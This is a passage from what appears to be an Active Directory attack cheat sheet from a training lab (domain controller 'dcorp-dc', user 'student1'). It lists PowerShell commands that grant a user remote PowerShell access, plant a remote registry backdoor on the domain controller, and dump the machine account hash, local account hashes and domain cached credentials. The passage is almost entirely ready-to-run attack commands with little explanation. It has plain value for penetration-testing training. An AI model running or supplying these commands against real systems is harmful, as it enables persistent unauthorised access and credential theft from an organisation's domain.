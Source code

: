 ~~~
Set-RemotePSRemoting -SamAccountName student1 -Verbose
~~~

**On remote machine for student1 without credentials**:
~~~
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
~~~

**On remote machine, remove the permissions**:
~~~
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
~~~

#### Remote Registry

**Using RACE or DAMP, with admin privs on remote machine**:
~~~
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
~~~

**As student1, retrieve machine account hash**:
~~~
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
~~~

**Retrieve local account hash**:
~~~
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
~~~

**Retrieve domain cached credentials**:
~~~
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
~~~

